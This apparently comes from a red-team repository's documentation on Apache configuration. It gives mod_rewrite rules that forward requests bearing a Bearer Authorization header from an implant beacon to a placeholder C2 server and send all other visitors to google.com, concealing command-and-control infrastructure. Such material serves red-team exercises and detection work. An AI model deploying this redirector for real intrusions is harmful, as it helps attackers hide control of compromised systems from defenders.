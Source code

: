 # Apache Configuration

## HTTP Auth Beacon
The HTTP auth beacon sends the id of our implant to the C2 server in the Authorization header. We need to configure Apache to redirect our implant traffic to our C2 server and redirect all other traffic to a benign server. The following Apache configuration options will redirect any request that includes the Authorization header with a Bearer token to our C2 server and all other traffic to google.com.

    ```
    RewriteEngine On

    RewriteCond %{HTTP:Authorization} ^Bearer
    RewriteRule (.*) http://c2.server.address:port/ [L]

    RewriteRule (.*) https://google.com [L]
    ```

A similar technique can be used to reroute traffic based on many other properties of the HTTP request. The mod_rewrite documentation should provide you with a number of ideas. http://httpd.apache.org/docs/current/mod/mod_rewrite.html
